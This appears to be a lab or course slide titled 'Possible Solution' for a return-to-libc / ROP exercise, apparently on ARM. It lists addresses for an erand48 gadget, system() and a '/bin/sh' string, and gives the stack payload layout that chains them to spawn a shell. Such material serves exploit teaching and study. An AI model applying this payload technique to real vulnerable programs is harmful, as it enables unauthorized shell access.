

# Possible Solution
My erand48+x located at 0x76F28E56 + 1
My system located at 0x76F2D768 +1
My “/bin/sh” passed in through string located at 0x7EFFF6E8
As per the stack diagram I need “ABCD”x3 + 0x578EF276 + 0xE8F6FF7E + “EFGH” + “IJKL” + 0x69D7F276 + “/bin/sh”
177